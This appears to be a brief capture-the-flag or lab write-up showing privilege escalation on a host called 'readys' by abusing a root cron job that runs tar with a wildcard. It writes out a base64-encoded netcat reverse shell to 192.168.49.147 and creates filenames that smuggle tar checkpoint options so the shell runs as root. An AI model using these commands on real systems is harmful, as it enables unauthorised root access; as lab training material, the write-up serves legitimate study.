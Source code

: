# tar with wildcard

```
alice@readys:/$ cat /etc/crontab
*/3 * * * * root /usr/local/bin/backup.sh

alice@readys:/$ ls -lh /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 122 Nov 17 12:36 /usr/local/bin/backup.sh

#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

There is a wildcard usage.

[https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

```
alice@readys:/$ cd /var/www/html

# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.147 80 >/tmp/f - Base64 Encoded

alice@readys:/var/www/html$ echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ5LjE0NyA4MCA+L3RtcC9m | base64 -d > shell.sh
alice@readys:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
alice@readys:/var/www/html$ echo "" > --checkpoint=1
```

